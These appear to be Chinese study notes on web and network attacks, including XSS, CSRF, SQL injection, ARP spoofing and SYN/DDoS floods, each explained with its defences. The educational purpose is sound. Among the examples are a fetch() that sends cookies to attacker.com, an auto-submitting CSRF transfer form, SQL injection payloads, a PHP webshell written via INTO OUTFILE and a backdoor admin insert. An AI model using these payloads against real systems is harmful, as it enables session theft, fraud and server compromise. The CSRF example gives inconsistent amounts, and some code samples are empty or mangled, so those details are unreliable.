

# **同源策略**

如果缺少了同源策略，浏览器很容易受到 XSS（跨站脚本攻击）、CSRF（跨站请求伪造）等攻击。所谓同源，指的是两个 URL 的协议、域名和端口号都相同。

### 判断同源的规则

判断两个 URL 是否同源，需要同时比较**协议、域名和端口号**这三个要素。

- `http://example.com/page1.html` 和 `http://example.com/page2.html`，它们的协议都是 `http`，域名都是 `example.com`，端口号默认都是 80，所以这两个 URL 是同源的。
- `http://sub.example.com` 和 `http://example.com`，域名不同，一个是子域名 `sub.example.com`，一个是主域名 `example.com`，所以不同源。

### 同源策略的限制内容

- **DOM 层面**：如果两个页面不同源，一个页面的 JavaScript 脚本无法访问另一个页面的 DOM 元素。例如，在 `http://site1.com` 的页面中，无法通过 JavaScript 直接获取 `http://site2.com` 页面中的表单元素的值。
- **数据存储层面**：不同源的页面无法共享本地存储（如 localStorage、sessionStorage）和 IndexedDB 中的数据。比如，`http://app1.com` 存储在 localStorage 中的数据，`http://app2.com` 无法读取。
- **网络请求层面**：浏览器会限制从一个源发起的跨源 HTTP 请求。例如，`http://client.com` 页面中的 JavaScript 代码不能直接向 `http://api.server.com` 发送 AJAX 请求，除非服务器端进行了相应的跨域配置。

### 绕过同源策略的方式

- **JSONP（JSON with Padding）**：利用 `<script>` 标签的 `src` 属性不受同源策略限制的特点，通过动态创建 `<script>` 标签来实现跨域数据请求。但它只支持 GET 请求。
- **CORS（Cross-Origin Resource Sharing）**：跨域资源共享，是一种现代的跨域解决方案。服务器通过设置响应头（如 `Access-Control-Allow-Origin`）来允许特定源的跨域请求。例如，服务器可以设置 `Access-Control-Allow-Origin: http://example.com` 来允许 `http://example.com` 的跨域请求。
- **代理服务器**：在同源的服务器上设置一个代理，客户端先将请求发送到同源的代理服务器，再由代理服务器转发请求到目标服务器，并将响应返回给客户端。

# **cookie**

cookie存储在C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Cookies

工具--文件夹选项--查看--将隐藏被保护的文件的对勾去掉就会看到 cookies 文件夹。

**同源策略：**浏览器不允许任何旧有脚本访问一个站点的 cookie，否则，会话容易被劫持。

只有发布 cookie 的站点能够访问这些 cookie，只有通过该站点返回的页面所包含或加载的 JavaScript 才能访问 cookie。

# 终端隐藏

- **IP 隐藏**：使用代理服务器、VPN（虚拟专用网络）等方式隐藏终端的真实 IP 地址。当终端通过代理服务器或 VPN 访问网络时，外界只能看到代理服务器或 VPN 节点的 IP 地址，而无法获取终端的真实 IP，从而保护终端的网络身份。
- **端口隐藏**：关闭不必要的网络端口，减少被攻击的面。例如，在防火墙中配置规则，只允许特定的端口进行数据传输，其他端口则处于关闭状态，这样可以防止攻击者通过扫描开放端口来发现终端设备的漏洞。

# **重放攻击**

## **定义**

重放攻击是指攻击者截获并记录合法用户与系统之间的通信数据，然后在之后的某个时间点重新发送这些数据，以欺骗系统，从而达到非法获取信息或执行操作的目的。

## **原理**

在正常的网络通信中，客户端和服务器之间会交换一系列的消息，这些消息可能包含身份验证信息、交易指令等。攻击者通过网络嗅探等手段，截获这些消息，并不对其进行修改，而是在合适的时机重新发送给目标系统。由于目标系统通常只验证消息的合法性，而不检查消息是否是重复发送的，因此可能会将重放的消息当作正常消息进行处理。

## **常见场景**

**身份验证过程**：在用户登录系统时，会向服务器发送包含用户名和密码等身份验证信息的数据包。攻击者截获该数据包后，在用户登出系统后重新发送该数据包，若系统没有有效的防重放机制，可能会误以为是合法用户再次登录，从而允许攻击者登录系统。

**金融交易**：在银行转账等金融交易场景中，客户端会向服务器发送包含转账金额、收款账户等信息的交易指令。攻击者截获该指令后，重放该指令，可能导致同一笔资金被多次转出。

## **危害**

**数据泄露**：攻击者通过重放身份验证消息，可能会非法登录系统，从而获取系统中的敏感数据，如用户个人信息、商业机密等。

**资金损失**：在金融交易场景中，重放攻击可能导致资金被多次转移，给用户或企业带来经济损失。

**系统被非法控制**：攻击者重放包含系统操作指令的消息，可能会对系统进行非法操作，如修改系统配置、删除重要数据等，影响系统的正常运行。

# ARP攻击

#### 一、ARP 基本原理

ARP（Address Resolution Protocol）是网络层协议，用于将 IP 地址映射到 MAC 地址（物理地址）。其核心流程为：

1. **ARP 请求**：主机发送**广播请求**，询问目标 IP 对应的 MAC 地址。
2. **ARP 响应**：拥有目标 IP 的主机**单播回复**自己的 MAC 地址。
3. **ARP 缓存**：主机将 IP-MAC 映射存入缓存，后续通信直接使用缓存。

#### 二、ARP 攻击类型

**1. ARP 欺骗（ARP Spoofing）**

- **原理**：攻击者伪造 ARP 请求 / 响应，向目标主机或网关发送虚假 IP-MAC 映射。
- **攻击方式：**
  - **对主机**：发送伪造的网关 MAC 地址，使主机将数据发送到攻击者的 MAC。
  - **对网关**：发送伪造的主机 MAC 地址，使网关将数据发送到攻击者的 MAC。
- **危害：**
  - 网络中断（目标无法访问网关）。
  - 中间人攻击（MITM）：攻击者拦截、篡改或窃听通信数据。

**2. 中间人攻击（MITM）**

- **过程：**
  1. 攻击者同时欺骗主机和网关，使双方将数据发送到自己。
  2. 攻击者转发数据以维持通信隐蔽性，同时窃取敏感信息（如密码、网银数据）。
- **工具示例**：`arpspoof`（Kali Linux 工具）。

**3. ARP 泛洪攻击（ARP Flooding）**

- **原理**：攻击者向网络发送大量伪造的 ARP 请求，耗尽交换机的 MAC 地址表。
- **结果：**
  - 交换机无法正确转发数据，退化为集线器模式（广播所有流量）。
  - 网络带宽被耗尽，导致拒绝服务（DoS）。

#### 三、防御措施

**1. 静态 ARP 绑定**

- 手动绑定网关 IP 和 MAC，防止被篡改。

**2. 使用 ARP 防护工具**

- **ARP 防火墙**：实时检测并拦截异常 ARP 数据包。

**3. 网络分段**

- 通过 VLAN 划分缩小攻击范围，限制 ARP 欺骗的传播。

**4. 加密通信**

- 使用 HTTPS、VPN 等加密协议，降低中间人攻击的危害。

# XSS 跨站脚本攻击

### **一、XSS 的核心原理**

XSS 的本质是**浏览器执行了非预期的脚本**。正常情况下，浏览器只会执行网页开发者编写的脚本，但当攻击者通过漏洞将恶意代码注入到页面中时，浏览器会误认为这些代码是可信的，从而执行攻击指令。

### **二、XSS 的类型**

根据攻击方式和触发条件，XSS 可分为三种主要类型：

#### 1. **反射型 XSS（非持久型）**

- **原理**：攻击者将恶意脚本嵌入 URL 参数或表单中，当用户访问带有恶意参数的链接时，服务器直接返回包含脚本的响应，导致脚本在用户浏览器中执行。

- **示例**：

  ```html
  <!-- 正常URL -->
  http://example.com/search?q=hello
  
  <!-- 恶意URL（反射型XSS） -->
  http://example.com/search?q=<script>alert('XSS');</script>
  ```

- **特点**：攻击代码不会存储在服务器端，依赖用户主动触发。

#### 2. **存储型 XSS（持久型）**

- **原理**：攻击者将恶意脚本提交到服务器（如留言板、评论区），脚本被永久存储并嵌入到页面中。后续用户访问该页面时，脚本自动执行。
- **示例**：
  用户 A 在论坛发布评论：`This is a comment <script>alert('XSS');</script>`，服务器将该内容存入数据库。当用户 B 浏览该帖子时，脚本会自动执行。
- **特点**：攻击代码长期有效，影响范围广。

#### 3. **DOM 型 XSS**

- **原理**：攻击代码通过修改页面的 DOM 结构触发，而非依赖服务器返回的数据。常见于 JavaScript 动态渲染页面时，未对用户输入进行过滤。

- **示例：**

  ```javascript
  // 不安全的DOM操作（假设location.hash由用户控制）
  document.getElementById("content").innerHTML = decodeURIComponent(window.location.hash);
  ```

  用户构造 URL，触发脚本执行。

  ```
  http://example.com/#<script>alert('XSS');</script>
  ```

- **特点**：攻击完全在客户端发生，服务器日志中无异常记录。

### **三、XSS 的危害**

1. **窃取用户信息：有 cookie 可以无用户名密码登录**
   通过脚本获取用户的 Cookie、会话令牌或其他敏感数据，例如：

   ```javascript
   // 窃取Cookie并发送到攻击者服务器
   fetch('http://attacker.com/cookie', {
     method: 'POST',
     body: document.cookie
   });
   ```

2. **会话劫持**：
   利用窃取的会话令牌，冒充用户身份执行操作（如转账、修改密码）。

3. **钓鱼攻击**：
   动态修改页面内容，诱导用户输入敏感信息（如伪造登录表单）。

4. **破坏网站功能**：
   删除或篡改页面内容，影响正常用户体验。

### **四、XSS 的防御方法**

1. **输入过滤**：
   对用户输入的数据进行严格校验，拒绝或转义危险字符（如 `<`, `>`, `&`, `'`, `"`）。

2. **输出编码**：
   在将动态内容（如用户输入）插入 HTML、JavaScript 或 URL 前，进行编码处理：

   - HTML 编码：将 `<` 转为 `<`，`>` 转为 `>`。
   - JavaScript 编码：对字符串中的引号、反斜杠等进行转义。
   - URL 编码：对特殊字符进行百分比编码（如 转为 `%20`）。

3. **使用安全框架**：
   现代框架（如 React、Vue）默认对动态内容进行转义，减少 XSS 风险。

4. **HttpOnly Cookie**：
   在设置 Cookie 时添加 `HttpOnly` 标志，防止通过 JavaScript 窃取 Cookie。

5. **内容安全策略（CSP）**：
   通过 HTTP 响应头 `Content-Security-Policy` 限制页面可加载的资源来源，例如：

   ```plaintext
   Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com
   ```

   该策略禁止加载非信任源的脚本，有效防御 XSS。

6. **避免使用不安全的 API**：
   例如，避免使用 `innerHTML`、`document.write()` 等直接插入 HTML 的方法，改用 `textContent`、`setAttribute()` 等安全方法。

# CSRF 跨站请求伪造

**跨站请求伪造（Cross-Site Request Forgery, CSRF）** 是一种迫使用户在已登录的 Web 应用上执行非预期操作的攻击方式。攻击者通过诱使用户访问恶意网站，利用用户的会话凭证（如 Cookie）冒充其身份执行操作。以下是关于 CSRF 的详细解析：

### **一、核心原理**

1. **会话劫持**
   - 用户已登录目标网站，浏览器保存了会话 Cookie（如`sessionid`）。
   - 攻击者构造恶意请求（如转账、修改密码），诱导用户访问该请求。
2. **自动携带凭证**
   - 浏览器在发送请求时会自动携带目标网站的 Cookie，服务器验证通过后执行操作。
   - **关键点**：服务器无法区分请求是用户主动发起还是被诱导的。

### **二、攻击类型**

| **类型**         | **攻击方式**                                                 | **示例场景**                                                 |
| ---------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **GET 型 CSRF**  | 恶意请求通过 URL 参数传递（如`GET /transfer?amount=1000&to=attacker`）。 | 钓鱼图片链接：`` |
| **POST 型 CSRF** | 恶意请求通过表单提交，需诱使用户点击或自动提交。             | 隐藏表单自动提交：`<form action="https://bank.com/transfer" method="POST"><input type="hidden" name="amount" value="1000"></form><script>document.forms[0].submit()</script>` |
| **HTML5 新特性** | 利用`WebSocket`、`Fetch`等 API 发送跨站请求。                | 通过 JavaScript 调用`fetch('https://bank.com/transfer', {method: 'POST', body: 'a` |

### **三、攻击流程**

1. **寻找漏洞点**：定位无需二次验证的敏感操作接口（如修改邮箱、支付接口）。
2. **构造恶意请求**：设计包含非法操作的 URL 或表单，并嵌入恶意网站。
3. **诱使用户触发**：通过邮件、社交媒体或伪装成合法链接引导用户访问。
4. **执行攻击**：用户浏览器自动携带会话 Cookie，服务器误认为是合法请求。

### **四、防御措施**

#### **1. 同步令牌（CSRF Token）**

- **原理**：在表单或请求头中添加随机令牌，服务器验证令牌合法性。当浏览器被钓鱼网站诱导发送请求时，只会有cookie的内容，由于是钓鱼网站触发的，不是正常的网页请求，因此不会有该session段的令牌，因此服务器就能辨别是否是钓鱼网站的csrf攻击。

- **实现步骤：**

  1. 服务器生成随机令牌并存入 Session。

  2. 在 HTML 表单中添加隐藏字段：

     ```html
     <input type="hidden" name="csrf_token" value="随机字符串">
     ```

  3. 提交请求时，服务器验证令牌与 Session 是否匹配。

- **优点**：通用性强，支持 GET/POST 请求。

- **缺点**：需与 Session 结合使用，增加服务器存储开销。

#### **2. 验证 Referer 头**

- **原理**：检查请求的`Referer`字段是否为合法来源。

- **实现：**

  ```python
  # Python Flask示例
  referer = request.headers.get('Referer')
  if not referer or not referer.startswith('https://yourdomain.com'):
      abort(403)
  ```

- **局限性：**

  - 用户可能禁用 Referer 发送。
  - 同一域内的子域名或框架可能被绕过。

#### **3. SameSite Cookies**

- **原理**：设置 Cookie 属性`SameSite=Strict/Lax`，限制跨站请求携带 Cookie。

- **配置示例：**

  ```http
  Set-Cookie: sessionid=abc123; SameSite=Strict; Secure
  ```

  - `Strict`：仅允许同站请求携带 Cookie。
  - `Lax`：允许同站请求和部分跨站导航（如 GET 请求）携带 Cookie。

- **兼容性**：现代浏览器（Chrome 80+）默认启用 Lax 模式。

#### **4. 双重提交 Cookie**

- **原理**：在 Cookie 和请求参数中设置相同令牌，服务器验证两者一致性。
- **实现：**
  1. 服务器生成随机令牌并存入 Cookie。
  2. 用户提交请求时，在参数中携带相同令牌。
  3. 服务器验证 Cookie 和参数中的令牌是否匹配。
- **优点**：无需依赖 Session，适合无状态应用。

#### **5. 验证码 / 二次验证**

- **场景**：对高风险操作（如转账、修改密码）强制要求验证码或短信验证。

### **五、常见误区**

- **误区 1**：CSRF 仅影响 POST 请求。
  **事实**：GET 请求同样可能被利用，需避免在 URL 中暴露敏感操作。
- **误区 2**：验证 Referer 头可完全防御 CSRF。
  **事实**：Referer 可能被伪造或禁用，需结合其他措施。
- **误区 3**：前端框架（如 React）可自动防御 CSRF。
  **事实**：框架不提供自动防护，需手动实现安全逻辑。

### 例子

下面通过一个银行转账的具体场景来详细说明 CSRF 攻击中自动携带 Cookie 以及服务器执行操作的过程。

#### 场景设定

- **用户**：小明是一名银行网站的用户，他已经成功登录了银行网站，浏览器中保存了该银行网站的会话 Cookie。
- **银行网站**：提供在线转账功能，用户登录后可以通过访问特定的 URL 并携带转账参数（如转账金额、收款账户等）来完成转账操作。
- **攻击者**：想要从小明的银行账户中转走一笔钱。

#### 正常转账流程

1. **登录**：小明打开银行网站（`https://bank.example.com`），输入用户名和密码进行登录。银行服务器验证通过后，会生成一个会话 ID 并以 Cookie 的形式发送给小明的浏览器，同时在服务器端记录该会话 ID 对应的用户信息。
2. **转账操作**：小明登录成功后，进入转账页面，输入转账金额（例如 1000 元）和收款账户（例如 123456），然后点击 “确认转账” 按钮。浏览器会向银行服务器发送一个 POST 请求，请求中包含转账参数和会话 Cookie。
3. **服务器验证与处理**：银行服务器接收到请求后，会检查请求中的会话 Cookie 是否有效。如果有效，服务器会根据请求中的转账参数进行转账操作，从小明的账户中扣除 1000 元并转入指定的收款账户。

#### CSRF 攻击流程

1. **攻击者构造恶意请求**：攻击者发现银行网站的转账接口可以通过 GET 请求来触发，例如转账的 URL 格式为 `https://bank.example.com/transfer?amount=1000&to=123456`。攻击者创建一个恶意网站（`https://evil.example.com`），并在该网站中嵌入一个隐藏的图片标签，图片的 `src` 属性指向银行的转账 URL：

```html

```

1. **诱使用户访问恶意网站**：攻击者通过各种手段（如发送钓鱼邮件、在社交媒体上发布虚假链接等）诱使小明访问恶意网站。
2. **浏览器自动携带 Cookie 发送请求**：当小明访问恶意网站时，浏览器会尝试加载网页中的图片。由于图片的 `src` 属性指向银行的转账 URL，浏览器会向银行服务器发送一个 GET 请求，并且会自动携带银行网站的会话 Cookie。
3. **服务器执行操作**：银行服务器接收到请求后，会检查请求中的会话 Cookie。由于会话 Cookie 是有效的，服务器会认为这是小明本人发起的合法请求，于是会根据请求中的转账参数（转账金额 5000 元，收款账户为攻击者的账户）进行转账操作，从而导致小明的账户资金被盗取。

#### 关键要点

- **Cookie 的自动携带**：浏览器的机制决定了在向某个网站发送请求时，会自动携带该网站对应的 Cookie。这是 CSRF 攻击能够成功的基础。
- **服务器的验证逻辑**：服务器通常只验证请求中的 Cookie 是否有效，而无法区分请求是用户主动发起的还是被诱导的。因此，当攻击者诱使用户在已登录的状态下触发恶意请求时，服务器会按照正常流程处理该请求。

# SQL 注入

### 原理

许多 Web 应用程序在处理用户输入时，会将用户输入的数据直接拼接到 SQL 查询语句中。如果应用程序没有对用户输入进行严格的过滤和验证，攻击者就可以通过构造特殊的输入，改变原有的 SQL 语句的逻辑，从而执行恶意的操作。

例如，一个简单的登录表单，应用程序可能会使用如下的 SQL 查询来验证用户的用户名和密码：

```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```

其中`$username`和`$password`是从用户输入中获取的值。如果没有对用户输入进行过滤，攻击者可以输入特殊的内容来改变这个 SQL 语句的逻辑。

### 攻击方式

#### 1. 基于错误的注入

攻击者通过构造恶意输入，使数据库返回错误信息，然后根据错误信息推断数据库的结构和数据。例如，在上述登录表单中，攻击者可以在用户名输入框中输入`' OR 1=1 --`，密码随意输入，拼接后的 SQL 语句变为：

```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '随意输入的密码';
```

`--`是 SQL 中的注释符号，后面的内容会被数据库忽略。`1=1`始终为真，这样整个查询条件就恒为真，攻击者可以绕过登录验证。

#### 2. 盲注

当数据库没有返回详细的错误信息时，攻击者可以使用盲注的方式。盲注通过构造一系列的条件语句，根据应用程序返回的不同结果（如页面响应时间、页面内容的变化等）来推断数据库中的信息。例如，攻击者可以使用如下的输入：

```sql
' AND (SELECT COUNT(*) FROM users) > 10 --
```

如果应用程序返回的结果表明条件成立，说明`users`表中的记录数大于 10。

#### 3. 联合查询注入

攻击者通过构造联合查询语句，将自己想要查询的数据与原查询结果合并返回。例如，假设原查询是查询用户信息，攻击者可以输入：

```sql
' UNION SELECT username, password FROM users --
```

这样就可以将`users`表中的用户名和密码信息查询出来。

### 防范措施

#### 1. 使用参数化查询

参数化查询是防止 SQL 注入的最有效方法。大多数编程语言和数据库都支持参数化查询，它将 SQL 语句和用户输入的数据分开处理，数据库会自动对用户输入进行转义，从而避免 SQL 注入。

#### 2. 输入验证和过滤

对用户输入进行严格的验证和过滤，只允许合法的字符和格式。例如，对于用户名，只允许字母、数字和下划线；对于年龄，只允许输入数字。可以使用正则表达式来实现输入验证。

#### 3. 最小化数据库权限

为应用程序分配最小的数据库权限，避免使用具有过高权限的数据库用户。例如，如果应用程序只需要查询数据，就不要给它更新和删除数据的权限。

### 工具

- **SQLMap**
  - **特点**：这是一款功能强大且广受欢迎的开源自动化 SQL 注入检测工具。它支持多种数据库管理系统，如 MySQL、Oracle、SQL Server 等，能够自动检测和利用 SQL 注入漏洞，获取数据库中的数据，包括表名、列名、数据内容等，还可以执行系统命令。
  - **使用场景**：常用于渗透测试人员对目标网站或应用程序进行全面的 SQL 注入漏洞扫描。
- **Nessus**
  - **特点**：是一款综合的漏洞扫描器，不仅可以检测 SQL 注入漏洞，还能发现其他各类安全漏洞，如跨站脚本攻击（XSS）、弱密码等。它拥有丰富的漏洞库，能够定期更新，保证检测的准确性和全面性。
  - **使用场景**：适合企业级的安全检测，可对整个网络环境进行扫描，及时发现潜在的安全风险。

### SQL 注入漏洞除了数据库数据，利用方式还有哪些？

#### **服务器层面攻击**

1. **植入 Webshell**
   - 通过注入写入 PHP/ASP 脚本到 Web 目录（如`SELECT '<?php eval($_POST[cmd]); ?>' INTO OUTFILE '/var/www/html/shell.php';`）。
   - 结合文件包含漏洞直接执行注入的恶意代码。
2. **操作系统控制**
   - 利用数据库扩展功能（如 MySQL 的`udf`）加载自定义动态链接库，执行任意系统命令。
   - 通过 UNC 路径攻击（如`\\attacker.com\malicious.dll`）触发远程代码执行。
3. **端口扫描与横向移动**
   - 通过数据库查询（如`SELECT * FROM openrowset('sqloledb', 'DRIVER={SQL Server};SERVER=192.168.1.100;UID=sa;PWD=pass', 'SELECT * FROM sys.tables')`）探测内网数据库。
   - 利用数据库作为跳板，攻击其他服务器（如 Redis、SSH）。

#### **权限维持与持久化**

1. **创建后门账户**
   - 直接向用户表插入管理员账号（如`INSERT INTO admins (username, password) VALUES ('admin', 'p@ssw0rd');`）。
   - 利用数据库存储过程（如 MySQL 的`CREATE EVENT`）定期执行恶意操作。
2. **绕过 WAF/IDS**
   - 使用编码（如 URL 编码、Unicode 转义）或混淆技术（如`/*!50000SELECT*/`）绕过防护设备。
   - 通过`UNION ALL SELECT`与错误回显结合，隐蔽传输数据。

# SYN泛洪攻击（SYN Flood，属于DDOS）

### **一、攻击原理**

#### 1. **TCP 三次握手回顾**

正常 TCP 连接建立过程如下：

1. **客户端发送 SYN 请求**：向服务器发起连接请求。
2. **服务器回复 SYN-ACK**：确认请求，并等待客户端确认。
3. **客户端发送 ACK**：完成连接，开始通信。

#### 2. **SYN 攻击的核心逻辑**

- **伪造源 IP**：攻击者通过工具生成大量虚假的 IP 地址，伪装成正常客户端发送 SYN 请求。
- **半连接队列溢出**：
  - 服务器收到客户端的 SYN 请求后，会分配资源（如内存、文件描述符），并将连接状态标记为`SYN_RECV`，存入**半连接队列**。
  - 服务器随后发送 SYN-ACK 包，并等待客户端的 ACK 确认，未收到客户端的确认包时，重发请求包，一直到超时。若客户端未响应（如源 IP 伪造），该连接会在超时后被删除（通常约 1 分钟）。
  - 完成三次握手的连接会被移至**全连接队列（已完成连接队列）**，等待应用层处理。
- **无 ACK 响应**：由于源 IP 是伪造的，服务器发送的 SYN-ACK 无法得到回应，导致连接一直处于 “半开” 状态，资源被长期占用。

### **二、攻击流程**

1. **攻击者控制肉鸡**：通过恶意软件感染大量主机（肉鸡），形成僵尸网络（Botnet）。
2. **发送海量 SYN 请求**：所有肉鸡同时向目标服务器发送伪造的 SYN 包，请求建立连接。
3. **服务器资源耗尽**：服务器忙于处理这些虚假请求，无法响应正常用户的连接，最终导致服务中断。

### **三、危害与影响**

1. **服务不可用**：目标服务器因资源耗尽，无法处理合法用户的请求，网站、API 等服务完全瘫痪。
2. **连带影响**：攻击可能导致网络拥堵，影响同一网段的其他设备或服务。
3. **经济损失**：企业可能因服务中断面临收入损失、客户流失及品牌声誉损害。

### **四、防御方法**

#### 1. **技术防御**

- **SYN Cookies**：
  服务器在收到 SYN 请求时，不立即分配资源，而是计算一个加密的 Cookie（包含客户端 IP、端口等信息），将其作为 SYN-ACK 的序列号。客户端回复 ACK 时，服务器验证 Cookie 的合法性，合法才建立连接。这能有效减少半连接队列的占用。
- **调整内核参数**：
  通过修改操作系统内核参数（如 `net.ipv4.tcp_max_syn_backlog`），增加半连接队列的容量或缩短等待时间。
- **防火墙与入侵检测系统（IDS）：**
  - 配置防火墙规则，限制单个 IP 的连接速率。
  - 使用 IDS 检测异常流量（如短时间内大量 SYN 请求）。
- **启用反向 SYN 代理**：
  部署专用设备（如负载均衡器）代理 SYN 请求，验证合法后再转发给服务器。

#### 2. **网络层防御**

- **使用 CDN 或云服务**：
  借助 CDN 或云厂商（如 AWS、阿里云）的 DDoS 防护功能，清洗恶意流量。
- **流量清洗中心**：
  运营商或第三方安全服务商提供流量清洗服务，实时过滤攻击流量。

# DDOS

- **DoS（Denial of Service）**：单一攻击源发起的攻击。
- **DDoS（Distributed Denial of Service）**：通过控制大量傀儡机（僵尸网络）协同攻击，规模更大、破坏性更强。

分布式拒绝服务(DDoS:Distributed Denial ofService)攻击指借助于客户/服务器技术，将多个计算机联合起来作为攻击平台，对一个或多个目标发动DDoS 攻击，从而成倍地提高拒绝服务攻击的威力。通常，攻击者使用一个偷窃帐号将 DDoS 主控程序安装在一个计算机上，在一个设定的时间主控程序将与大量代理程序通讯，代理程序已经被安装在网络上的许多计算机上。代理程序收到指令时就发动攻击。利用客户/服务器技术，主控程序能在几秒钟内激活成百上千次代理程序的运行。

| **攻击类型**     | **描述**                                                     |
| ---------------- | ------------------------------------------------------------ |
| **SYN Flood**    | 伪造源 IP 发送海量 SYN 请求，耗尽服务器半连接队列（如前所述）。 |
| **UDP Flood**    | 向目标端口发送随机 UDP 数据包，消耗带宽并触发防火墙规则。    |
| **ICMP Flood**   | 发送大量 ICMP 请求（如 Ping），占用网络带宽（如 “Ping of Death”）。 |
| **HTTP Flood**   | 模拟正常用户请求，向 Web 服务器发送海量 HTTP GET/POST 请求，耗尽资源。 |
| **DNS 放大攻击** | 利用 DNS 服务器递归查询特性，将请求放大数十倍后反射到目标（如 2016 年 Dyn 攻击）。 |
| **慢速攻击**     | 如 Slowloris，通过保持大量半开连接消耗服务器资源。           |

# CC攻击（**Challenge Collapsar 攻击**）

CC 攻击是 DDOS（分布式拒绝服务）的一种，相比其它的 DDOS 攻击 CC 似乎更有技术含量一些。这种攻击你见不到真实源 IP，见不到特别大的异常流量，但造成服务器无法进行正常连接。CC 攻击的原理就是攻击者控制某些主机不停地发大量数据包给对方服务器造成服务器资源耗尽，一直到宕机崩溃。CC 主要是用来攻击页面的，每个人都有这样的体验：当一个网页访问的人数特别多的时候，打开网页就慢了，CC 就是模拟多个用户（多少线程就是多少用户）不停地进行访问那些需要大量数据操作（就是需要大量 CPU 时间）的页面，造成服务器资源的浪费，CPU 长时间处于 100%，永远都有处理不完的连接直至就网络拥塞，正常的访问被中止。

| **特点**           | **说明**                                                     |
| ------------------ | ------------------------------------------------------------ |
| **低频高并发**     | 每个请求间隔正常（如 1 秒 1 次），但由数千设备同时发起，总请求量极高。 |
| **真实 IP 与会话** | 模拟真实用户行为（如保持 Cookie、访问动态页面），难以通过简单 IP 封禁防御。 |
| **精准打击**       | 针对特定 URL 或接口（如支付页面、API），直接影响核心业务。   |
| **持续时间长**     | 攻击可持续数天甚至数月，消耗企业防御资源。                   |

### **常见攻击方式**

- **GET Flood**：大量访问静态资源（如图片、CSS），占用带宽和服务器线程。
- **POST Flood**：模拟用户登录、搜索等操作，消耗数据库资源。
- **慢速连接攻击**：如 Slowloris，通过保持长连接但不发送完整请求，耗尽服务器连接池。
- **爬虫式攻击**：模仿搜索引擎爬虫遍历网站，制造大量无效请求。

### **防御措施**

- **Web 应用防火墙（WAF）：**识别异常请求模式（如单 IP 高频访问、特定 URL 集中请求）。
- **流量清洗与负载均衡：**部署 CDN 节点分散流量，实时过滤恶意请求。
- **请求频率限制：**限制单 IP 每分钟请求次数（如 Nginx 的`limit_req`模块）。
- **验证码与行为分析：**对高频访问用户强制输入 CAPTCHA，或通过 AI 识别异常行为（如爬虫）。

# 蜜罐攻击

### **1. 蜜罐的定义与作用**

- **定义**：蜜罐是一种伪装成易受攻击的系统（如服务器、数据库或网络设备），其本身不提供实际服务，但会记录所有访问和攻击行为。
- **核心作用：**
  - **检测攻击**：实时发现网络中的恶意活动（如扫描、入侵尝试）。
  - **收集情报**：分析攻击者的工具、手法和目标，为防御提供数据支持。
  - **分散攻击**：将攻击者的注意力从真实系统转移到蜜罐，保护核心资产。

### **2. 蜜罐攻击的典型场景**

- **攻击者视角：**
  1. **扫描阶段**：攻击者通过端口扫描等手段发现开放服务（如 SSH、Web 服务）。
  2. **试探攻击**：尝试弱密码、漏洞利用（如 SQL 注入）或社工钓鱼。
  3. **入侵行为**：若成功进入蜜罐，可能进一步横向移动或窃取 “假数据”。
- **防御者视角：**
  - 蜜罐记录攻击的 IP、时间、操作步骤等信息。
  - 通过分析攻击模式，优化防火墙规则或修复漏洞。

# **网络钓鱼**

网络钓鱼是通过大量发送声称来自于银行或其他知名机构的欺骗性垃圾邮件,意图引诱收信人给出敏感信息（如用户名、口令、帐号 ID 、ATMPIN 码或信用卡详细信息）的一种攻击方式。

最典型的网络钓鱼攻击将收信人引诱到一个通过精心设计与目标组织的网站非常相似的钓鱼网站上，并获取收信人在此网站上输入的个人敏感信息，通常这个攻击过程不会让受害者警觉。

它常常导引用户到 URL 与接口外观与真正网站几无二致的假冒网站输入个人数据。就算使用强式加密的 SSL 服务器认证，要侦测网站是否仿冒实际上仍很困难。网钓是一种利用社会工程技术来愚弄用户的实例。它凭恃的是现行网络安全技术的低亲和度。

# HTTPS 和 HTTP

| **特性**       | **HTTP**                   | **HTTPS**                                     |
| -------------- | -------------------------- | --------------------------------------------- |
| **协议**       | 超文本传输协议（明文传输） | HTTP + SSL/TLS（加密传输）                    |
| **默认端口**   | 80                         | 443                                           |
| **安全性**     | 无加密，易被窃听、篡改     | 加密传输，防窃听、篡改、中间人攻击            |
| **证书验证**   | 无                         | 需要服务器证书验证身份                        |
| **SEO 优先级** | 较低                       | 较高（Google 等搜索引擎优先收录）             |
| **部署成本**   | 低                         | 需购买或申请证书（如 Let's Encrypt 免费证书） |

### **HTTPS 的工作流程**

1. **客户端发起请求**：浏览器向服务器发送 HTTPS 请求（如`https://example.com`）。
